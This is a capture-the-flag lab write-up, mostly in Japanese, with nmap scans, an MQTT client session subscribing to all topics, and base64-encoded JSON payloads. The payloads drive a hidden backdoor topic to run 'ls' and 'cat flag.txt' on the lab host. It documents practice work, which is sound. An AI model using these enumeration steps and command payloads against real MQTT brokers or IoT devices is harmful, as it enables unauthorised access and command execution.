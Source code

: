 ### 🦋 Enum 
```
nmap -Pn -sS 10.10.25.229 -p- --min-rate=1000 -vv

Not shown: 65534 closed tcp ports (reset)
PORT     STATE SERVICE REASON
1883/tcp open  mqtt    syn-ack ttl 60
```
```
nmap -Pn -sVC 10.10.25.229 -p 1883 -vv -T4

PORT     STATE SERVICE                  REASON  VERSION
1883/tcp open  mosquitto version 2.0.14 syn-ack
| mqtt-subscribe: 
|   Topics and their most recent payloads: 
|     $SYS/broker/publish/bytes/sent: 349
|     $SYS/broker/load/connections/5min: 0.51
|     $SYS/broker/version: mosquitto version 2.0.14
|     $SYS/broker/load/messages/received/1min: 86.11
|     $SYS/broker/load/bytes/received/5min: 1912.58
|     $SYS/broker/load/publish/sent/5min: 6.68
|     livingroom/speaker: {"id":211551651046996595,"gain":41}
|     $SYS/broker/load/sockets/15min: 0.25
|     $SYS/broker/messages/stored: 36
|     $SYS/broker/load/messages/sent/15min: 18.52
|     $SYS/broker/messages/received: 269
|     storage/thermostat: {"id":3296708289509929431,"temperature":24.104994}
|     $SYS/broker/load/publish/sent/15min: 2.25
|     $SYS/broker/clients/inactive: 0
|     $SYS/broker/clients/connected: 2
|     $SYS/broker/uptime: 176 seconds
|     patio/lights: {"id":15868680515623395794,"color":"BLUE","status":"ON"}
|     $SYS/broker/subscriptions/count: 3
|     $SYS/broker/load/messages/received/5min: 40.58
|     $SYS/broker/clients/active: 2
|     $SYS/broker/load/messages/sent/5min: 47.26
|     $SYS/broker/clients/total: 2
|     $SYS/broker/load/sockets/5min: 0.69
|     $SYS/broker/load/sockets/1min: 2.49
|     $SYS/broker/load/bytes/received/15min: 767.85
|     $SYS/broker/publish/messages/sent: 62
|     $SYS/broker/bytes/sent: 3686
|     $SYS/broker/load/connections/15min: 0.19
|     $SYS/broker/publish/bytes/received: 8994
|     $SYS/broker/load/connections/1min: 1.89
|     $SYS/broker/messages/sent: 330
|     $SYS/broker/load/messages/received/15min: 16.27
|     $SYS/broker/load/bytes/sent/15min: 155.79
|     $SYS/broker/clients/disconnected: 0
|     $SYS/broker/bytes/received: 12702
|     $SYS/broker/clients/maximum: 2
|     $SYS/broker/retained messages/count: 38
|     $SYS/broker/store/messages/count: 36
|     $SYS/broker/load/publish/sent/1min: 31.07
|     $SYS/broker/load/messages/sent/1min: 117.18
|     $SYS/broker/store/messages/bytes: 271
|     $SYS/broker/load/bytes/sent/1min: 1594.43
|     $SYS/broker/load/bytes/sent/5min: 431.08
|_    $SYS/broker/load/bytes/received/1min: 4023.83

Nmap done: 1 IP address (1 host up) scanned in 16.03 seconds
```

```
curl 10.10.25.229:1883 -vv
*   Trying 10.10.25.229:1883...
* Connected to 10.10.25.229 (10.10.25.229) port 1883 (#0)
> GET / HTTP/1.1
> Host: 10.10.25.229:1883
> User-Agent: curl/7.88.1
> Accept: */*
> 
* Recv failure: 接続が相手からリセットされました
* Closing connection 0
curl: (56) Recv failure: 接続が相手からリセットされました
```

mosquitto version 2.0.14 とヒントから対象はMQTTサーバっぽい。

https://book.hacktricks.xyz/network-services-pentesting/1883-pentesting-mqtt-mosquitto

こちらの記事から、以下のクライアントで通信してみることにした。

https://github.com/bapowell/python-mqtt-client-shell

### 🦋 Flag

```
└─$ python MQTT_Client.py

Welcome to the MQTT client shell.
Type help or ? to list commands.
Pressing <Enter> on an empty line will repeat the last command.

Client args: client_id=paho-8695-kali, clean_session=True, protocol=4 (MQTTv3.1.1), transport=tcp
Logging: on (indent=30), Recording: off, Pacing: 0
> logging off

Client args: client_id=paho-8695-kali, clean_session=True, protocol=4 (MQTTv3.1.1), transport=tcp
Logging: off, Recording: off, Pacing: 0
> connection

Connection args: host=localhost, port=1883, keepalive=60, bind_address=, will=None,
                 username=, password=, 
                 TLS/SSL args: ca_certs_filepath=None, ...  (TLS not used)
Client args: client_id=paho-8695-kali, clean_session=True, protocol=4 (MQTTv3.1.1), transport=tcp
Logging: off, Recording: off, Pacing: 0

> host 10.10.25.229

Connection args: host=10.10.25.229, port=1883, keepalive=60, bind_address=, will=None,
                 username=, password=, 
                 TLS/SSL args: ca_certs_filepath=None, ...  (TLS not used)
Client args: client_id=paho-8695-kali, clean_session=True, protocol=4 (MQTTv3.1.1), transport=tcp
Logging: off, Recording: off, Pacing: 0
> connect

***CONNECTED***
Subscriptions: 
Connection args: host=10.10.25.229, port=1883, keepalive=60, bind_address=, will=None,
                 username=, password=, 
                 TLS/SSL args: ca_certs_filepath=None, ...  (TLS not used)
Client args: client_id=paho-8695-kali, clean_session=True, protocol=4 (MQTTv3.1.1), transport=tcp
Logging: off, Recording: off, Pacing: 0

> subscribe #
...msg_id=1, result=0 (No error.)

***CONNECTED***
Subscriptions: (topic=#,qos=0)
Connection args: host=10.10.25.229, port=1883, keepalive=60, bind_address=, will=None,
                 username=, password=, 
                 TLS/SSL args: ca_certs_filepath=None, ...  (TLS not used)
Client args: client_id=paho-8695-kali, clean_session=True, protocol=4 (MQTTv3.1.1), transport=tcp
Logging: off, Recording: off, Pacing: 0
>                               on_message(): message received: Topic: patio/lights, QoS: 0, Payload Length: 58
                                                              Payload (str): b'{"id":16203475553139602730,"color":"WHITE","status":"OFF"}'
                                                              Payload (hex): b'7b226964223a31363230333437353535333133393630323733302c22636f6c6f72223a225748495445222c22737461747573223a224f4646227d'
                              on_message(): message received: Topic: frontdeck/camera, QoS: 0, Payload Length: 97
                                                              Payload (str): b'{"id":12711243125979531289,"yaxis":-30.734741,"xaxis":8.347092,"zoom":3.7394342,"movement":false}'

```
ホスト設定後、チュートリアルとおりのコマンドでそれっぽいデータ受信を確認。

しばらくしてると、Topic: yR3gPp0r8Y/AGlaMxmHJe/qV66JF5qmH/config　で始まるB64されたおかしいMSGを受信するのでPayloadをデコードする。

![image](https://user-images.githubusercontent.com/6504854/236677887-22e8a30d-698b-49a2-a686-cf07b1633e53.png)

![image](https://user-images.githubusercontent.com/6504854/236678248-ef0391ea-3f28-4215-82f6-ed5868d47632.png)

![image](https://user-images.githubusercontent.com/6504854/236678879-554deeb0-1c25-40b8-9ae7-d83fcd300476.png)

この電文を元にopicとPayloadの組み合わせを考えいれてみた。
```
{"id":"cdd1b1c0-1c40-4b0f-8e22-61b357548b7d","registered_commands":["HELP","CMD","SYS"],"pub_topic":"U4vyqNlQtf/0vozmaZyLT/15H9TF6CHg/pub","sub_topic":"XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub"}
```
```
publish pub_topic "U4vyqNlQtf/0vozmaZyLT/15H9TF6CHg/pub"
publish pub_topic "HELP"
publish pub_topic "CMD"
publish pub_topic "SYS"
publish U4vyqNlQtf/0vozmaZyLT/15H9TF6CHg/pub "HELP"
publish U4vyqNlQtf/0vozmaZyLT/15H9TF6CHg/pub "CMD"
publish U4vyqNlQtf/0vozmaZyLT/15H9TF6CHg/pub "SYS"

publish sub_topic "XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub"
publish sub_topic "HELP"
publish sub_topic "CMD"
publish sub_topic "SYS"
publish XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub "HELP"
publish XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub "CMD"
publish XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub "SYS"
```
![image](https://user-images.githubusercontent.com/6504854/236678975-ad9603e0-3a2f-42e1-8c33-672bd1134fa6.png)
![image](https://user-images.githubusercontent.com/6504854/236679221-65f00435-d344-4fef-a0da-3a11ea94bdd1.png)

どうも下３こ反応しているように見受けられる。デコードする。argってなに？（なんらかの引数でしょうね、はい）。
また以下PayloadをB64していれてみる。

```
{"id": "cdd1b1c0-1c40-4b0f-8e22-61b357548b7d", "cmd": "HELP"}
{"id": "cdd1b1c0-1c40-4b0f-8e22-61b357548b7d", "cmd": "HELP", "arg": ""}
{"id": "cdd1b1c0-1c40-4b0f-8e22-61b357548b7d", "cmd": "CMD"}
{"id": "cdd1b1c0-1c40-4b0f-8e22-61b357548b7d", "cmd": "CMD", "arg": "ls"}
{"id": "cdd1b1c0-1c40-4b0f-8e22-61b357548b7d", "cmd": "SYS"}
{"id": "cdd1b1c0-1c40-4b0f-8e22-61b357548b7d", "cmd": "SYS", "arg": ""}
```

{"id": "cdd1b1c0-1c40-4b0f-8e22-61b357548b7d", "cmd": "CMD", "arg": "ls"} の結果
![image](https://user-images.githubusercontent.com/6504854/236681441-19e41a13-e671-403f-ae9c-a8b8dc82c08b.png)

{"id": "cdd1b1c0-1c40-4b0f-8e22-61b357548b7d", "cmd": "CMD", "arg": "cat flag.txt"} の結果
![image](https://user-images.githubusercontent.com/6504854/236682086-4a630e7a-234e-4fd5-93b9-cf4ab34626d3.png)


うーん。B64して遊んでたら休みが終わった。。。MQTTの仕様はなんもわかってない。


